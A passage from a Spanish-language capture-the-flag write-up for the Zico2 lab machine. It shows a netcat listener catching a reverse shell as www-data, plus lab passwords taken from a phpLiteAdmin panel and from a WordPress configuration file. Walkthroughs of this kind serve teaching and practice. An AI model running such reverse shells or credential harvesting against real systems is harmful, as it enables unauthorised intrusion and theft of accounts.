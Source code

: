 Coloco en escucha

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.105] 49711
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Adicional:

Panel de administración de `phpLiteAdmin` con hashes de usuarios

![hash](../assets/imgs/zico2/hash.png)

----

![pass](../assets/imgs/zico2/pass.png)


```
PASS SQLITE
root : 34kroot34
zico : zico2215@
```

Obteniendo contraseña de usuario **zico** en el archivo de configuración de `WordPress`.

```
[...]
/** MySQL database username */   
define('DB_USER', 'zico');
                                              
/** MySQL database password */                
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8'); 
                                              
/** MySQL hostname */                         
[...]
```

### Shell como zico
